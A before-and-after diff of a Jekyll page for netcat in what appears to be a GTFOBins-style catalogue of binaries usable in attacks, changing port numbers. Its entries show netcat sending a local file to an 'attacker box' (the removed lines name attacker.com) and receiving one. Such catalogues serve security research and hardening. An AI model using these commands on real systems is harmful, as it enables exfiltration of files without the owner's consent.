

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/nc.md, in a window 1280 px wide, cut to the strip 339-875 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update nc.md

```diff
--- a/_gtfoud/nc.md
+++ b/_gtfoud/nc.md
@@ -1,16 +1,11 @@
 ---
 functions:
   file-upload:
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file.
       code: |
-        RHOST=attacker.com
-        RPORT=12345
-        LFILE=file_to_send
         nc $RHOST $RPORT < "$LFILE"
   file-download:
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file.
       code: |
-        LPORT=12345
-        LFILE=file_to_save
         nc -l -p $LPORT > "$LFILE"
 ---
```
